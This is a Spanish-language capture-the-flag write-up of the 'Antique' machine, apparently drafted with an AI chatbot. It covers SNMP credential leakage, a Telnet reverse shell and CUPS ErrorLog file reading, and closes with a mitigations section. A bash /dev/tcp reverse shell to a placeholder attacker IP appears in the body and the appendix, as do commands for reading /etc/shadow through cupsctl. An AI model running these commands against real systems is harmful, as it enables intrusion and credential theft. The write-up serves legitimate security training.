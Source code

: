 # Antique — Writeup

**Resumen rápido**  
Máquina objetivo con servicio Telnet expuesto (impresora HP JetDirect) y SNMP accesible que filtra credenciales. Exploté SNMP para recuperar la contraseña del servicio Telnet, obtuve una reverse shell como usuario local, y luego escalé a `root` aprovechando una vulnerabilidad en CUPS (lectura de ficheros mediante ErrorLog). Resultado: `user.txt` y `root.txt` obtenidos.

---

## Tabla de contenidos
- [Resumen](#resumen)
- [Reconocimiento](#reconocimiento)
- [Enumeración](#enumeración)
- [Explotación inicial — Telnet via SNMP](#explotación-inicial---telnet-via-snmp)
- [Reverse shell y obtención de `user.txt`](#reverse-shell-y-obtención-de-usertxt)
- [Escalada de privilegios — CUPS (ErrorLog) exploit](#escalada-de-privilegios---cups-errorlog-exploit)
- [Cadena de explotación (resumen)](#cadena-de-explotación-resumen)
- [Mitigaciones recomendadas](#mitigaciones-recomendadas)
- [Appendix — comandos y scripts usados (sin cambios)](#appendix--comandos-y-scripts-usados-sin-cambios)

---

## Resumen
En esta máquina identifiqué un servicio Telnet en el puerto 23 que parecía pertenecer a una impresora HP JetDirect. Tras fallar con intentos de contraseña trivial, enumeré la red y encontré SNMP (UDP 161) expuesto. Con `snmpwalk` extraje una cadena hexadecimal que, al decodificarla, resultó ser la contraseña de la impresora. Me conecté por Telnet, ejecuté un comando `exec` para lanzar una reverse shell y obtuve `user.txt`. Para la escalada, descubrí un servicio web CUPS en el puerto 631; usando la opción `cupsctl` cambié el `ErrorLog` a un fichero sensible (`/etc/shadow` y posteriormente la `root.txt`) y lo visualicé vía la interfaz de logs de CUPS para obtener `root.txt`.

---

## Reconocimiento

- Realicé un escaneo TCP/UDP para descubrir servicios.
- Detecté **puerto 23 (Telnet)** abierto; el banner/behavior sugería una impresora HP JetDirect.
- Tras conectar por Telnet, el login no se consiguió con contraseñas triviales, por lo que procedí a una enumeración más exhaustiva, incluyendo UDP.

---

## Enumeración

- Busqué puertos UDP y encontré **161/udp (SNMP)** abierto.
- Enumeré SNMP con `snmpwalk` para intentar extraer información sensible.

Comando usado para SNMP enumeration (tal cual):
```bash
snmpwalk -c COMUNITY_STRING -v 2c IP_VICTIMA 1
````

* La salida contenía una **cadena en hexadecimal**. Al decodificarla resultó ser la contraseña de Telnet de la impresora.

**Nota:** SNMP mal configurado (p. ej. community string por defecto o información excesiva disponible) puede revelar secretos críticos. Aquí se aprovechó para recuperar credenciales locales de un servicio.

---

## Explotación inicial — Telnet via SNMP

* Con la contraseña extraída por SNMP me conecté vía Telnet a la impresora/servicio en el puerto 23.
* En la sesión de Telnet el comando `?` mostró que la impresora permitía ejecutar comandos (capacidad de ejecución remota).
* Aprovechando esto se ejecutó un `exec` para lanzar una reverse shell hacia mi máquina atacante.

Comando usado en Telnet (tal cual):

```
exec bash -c "bash -i >& /dev/tcp/IP_ATACANTE/4444 0>&1"
```

---

## Reverse shell y obtención de `user.txt`

* Tras ejecutar el `exec` desde Telnet, recibí una reverse shell en mi listener y pude explorar el sistema con los privilegios del proceso que ejecuta la impresora (usuario local).
* Localicé `user.txt` en el directorio home de la víctima y lo recuperé.

**Ruta de `user.txt`:**

> `user.txt` ubicado en el directorio home del usuario en la máquina objetivo (según tus notas).

---

## Escalada de privilegios — CUPS (ErrorLog) exploit

* Buscando escalada revisé puertos y procesos locales para encontrar servicios accesibles internamente:

  * Ejecuté `netstat -ano` y observé que había algo escuchando en **puerto 631**.
  * Intenté conectar con `netcat` sin éxito directo, pero un `curl` a ese puerto confirmó que era una interfaz web (CUPS).

* Para ver la web usé SSH/`chisel` para hacer port forwarding y acceder desde mi máquina, confirmando la versión del servicio: **CUPS 1.6.1**.

* Aproveché una vulnerabilidad en CUPS relacionada con los logs de error: CUPS permite cambiar la ubicación del error log con `cupsctl`. Al redefinir `ErrorLog` a un fichero del sistema (por ejemplo `/etc/shadow`), se puede acceder al archivo a través de la interfaz de logs de CUPS:

Comando usado (tal cual):

```
cupsctl ErrorLog="/etc/shadow"
```

* Después apunté al endpoint de logs de CUPS, por ejemplo:

```
http://localhost:631/admin/log/error_log
```

y pude visualizar `/etc/shadow`.

* Repetí el proceso apuntando el `ErrorLog` a la ruta que contiene `root.txt` (suponiendo `/root/root.txt`) y así obtuve la `root.txt`.

**Importante:** esta técnica explota capacidades administrativas de CUPS para redirigir el archivo de log a archivos arbitrarios y luego exponerlos vía la interfaz de administración. En entornos mal configurados donde la interfaz es accesible sin restricciones, permite lectura de ficheros arbitrarios como `root`.

---

## Cadena de explotación (resumen)

1. Escaneo inicial → puerto **23 (Telnet)** abierto (impresora HP JetDirect).
2. Enumeración UDP → **161/udp (SNMP)** encontrado.
3. `snmpwalk` → extracción de cadena hex → decodificada = contraseña Telnet.
4. Conexión Telnet → uso de `exec` para lanzar reverse shell → obtención de `user.txt`.
5. Búsqueda de servicios locales → **631 (CUPS)** detectado.
6. Uso de `cupsctl` para fijar `ErrorLog` a `/etc/shadow` (y luego a `root.txt`) y lectura vía `http://localhost:631/admin/log/error_log`.
7. Lectura de `root.txt` → `root` comprometido.

---

## Mitigaciones recomendadas

* **SNMP:** no exponer SNMP en interfaces no confiables; usar SNMPv3 con autenticación y cifrado; cambiar community strings por defecto y limitar acceso por ACL/IP.
* **Telnet:** evitar Telnet en favor de SSH; si un dispositivo necesita acceso remoto, usar túneles seguros y credenciales fuertes.
* **Control de ejecución en dispositivos:** limitar comandos ejecutables desde interfaces de gestión (Telnet/HTTP) y aplicar autenticación fuerte y control de acceso.
* **CUPS:** restringir acceso a la interfaz de administración de CUPS (bind a localhost, firewall, autenticación), parchear a versiones sin la vulnerabilidad; evitar permitir `cupsctl` sin restricciones o desde contextos no seguros.
* **Hardening general:** revisar permisos de servicios y ficheros, minimizar superficie expuesta y aplicar autenticación/registro/monitorización para detectar exfiltración y cambios en la configuración.

---

## Appendix — comandos y scripts usados (sin cambios)

### SNMP enumeration

```bash
snmpwalk -c COMUNITY_STRING -v 2c IP_VICTIMA 1
```

### Telnet — exec reverse shell (comando usado dentro de Telnet)

```
exec bash -c "bash -i >& /dev/tcp/IP_ATACANTE/4444 0>&1"
```

### Netstat

```bash
netstat -ano
```

### cupsctl para redirigir ErrorLog (leer /etc/shadow vía CUPS)

```
cupsctl ErrorLog="/etc/shadow"
```

### Endpoint de logs de CUPS (ejemplo)

Acceder en el navegador o con curl:

```
http://localhost:631/admin/log/error_log
```

---

## Notas finales

* Esta máquina ilustra una cadena clásica donde servicios de gestión expuestos (SNMP, Telnet, paneles administrativos) y malas prácticas en la configuración (CUPS accesible sin restricciones) se combinan para una escalada completa.
* En entornos reales, la exposición de SNMP y Telnet, junto con interfaces administrativas sin autenticación/seguridad, representa riesgos críticos.
* Si quieres, puedo transformar este README en un archivo `README.md` descargable listo para subir a tu repositorio, o añadir capturas de pantalla y salidas de comandos si las pegas aquí.

```
::contentReference[oaicite:0]{index=0}
```
